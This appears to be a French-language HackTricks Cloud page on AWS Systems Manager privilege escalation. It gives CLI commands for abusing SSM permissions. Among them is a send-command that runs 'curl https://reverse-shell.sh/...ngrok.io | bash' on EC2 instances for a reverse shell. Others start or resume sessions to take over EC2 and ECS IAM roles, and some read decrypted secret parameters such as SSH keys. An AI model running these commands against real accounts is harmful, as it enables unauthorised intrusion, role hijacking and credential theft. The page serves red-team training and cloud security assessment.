 # AWS - SSM Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SSM

Pour plus d'informations sur SSM, consultez :

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaquant avec la permission **`ssm:SendCommand`** peut **exécuter des commandes dans des instances** exécutant l'agent Amazon SSM et **compromettre le rôle IAM** s'exécutant à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Dans le cas où vous utilisez cette technique pour élever les privilèges à l'intérieur d'une instance EC2 déjà compromise, vous pourriez simplement capturer le rev shell localement avec :
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impact potentiel :** Privesc direct vers les rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution.

### `ssm:StartSession`

Un attaquant avec la permission **`ssm:StartSession`** peut **démarrer une session similaire à SSH dans les instances** exécutant l'agent Amazon SSM et **compromettre le rôle IAM** s'exécutant à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Pour commencer une session, vous devez avoir le **SessionManagerPlugin** installé : [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impact potentiel :** Privesc direct aux rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution.

#### Privesc à ECS

Lorsque les **tâches ECS** s'exécutent avec **`ExecuteCommand` activé**, les utilisateurs ayant suffisamment de permissions peuvent utiliser `ecs execute-command` pour **exécuter une commande** à l'intérieur du conteneur.\
Selon [**la documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), cela se fait en créant un canal sécurisé entre l'appareil que vous utilisez pour initier la commande “_exec_” et le conteneur cible avec SSM Session Manager. (Le plugin SSM Session Manager est nécessaire pour que cela fonctionne)\
Par conséquent, les utilisateurs avec `ssm:StartSession` pourront **obtenir un shell à l'intérieur des tâches ECS** avec cette option activée en exécutant simplement :
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Impact potentiel :** Privesc direct aux rôles `ECS`IAM attachés aux tâches en cours avec `ExecuteCommand` activé.

### `ssm:ResumeSession`

Un attaquant avec la permission **`ssm:ResumeSession`** peut re-**démarrer une session similaire à SSH dans des instances** exécutant l'agent Amazon SSM avec un état de session SSM **déconnecté** et **compromettre le rôle IAM** s'exécutant à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impact potentiel :** Privesc direct aux rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM en cours d'exécution et des sessions déconnectées.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaquant avec les permissions mentionnées sera en mesure de lister les **paramètres SSM** et **de les lire en texte clair**. Dans ces paramètres, vous pouvez fréquemment **trouver des informations sensibles** telles que des clés SSH ou des clés API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des paramètres.

### `ssm:ListCommands`

Un attaquant avec cette permission peut lister toutes les **commandes** envoyées et espérer trouver des **informations sensibles** à leur sujet.
```
aws ssm list-commands
```
**Impact potentiel :** Trouver des informations sensibles dans les lignes de commande.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaquant avec ces autorisations peut lister toutes les **commandes** envoyées et **lire la sortie** générée en espérant trouver des **informations sensibles** dessus.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impact potentiel :** Trouver des informations sensibles dans la sortie des lignes de commande.

### Codebuild

Vous pouvez également utiliser SSM pour accéder à un projet codebuild en cours de construction :

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

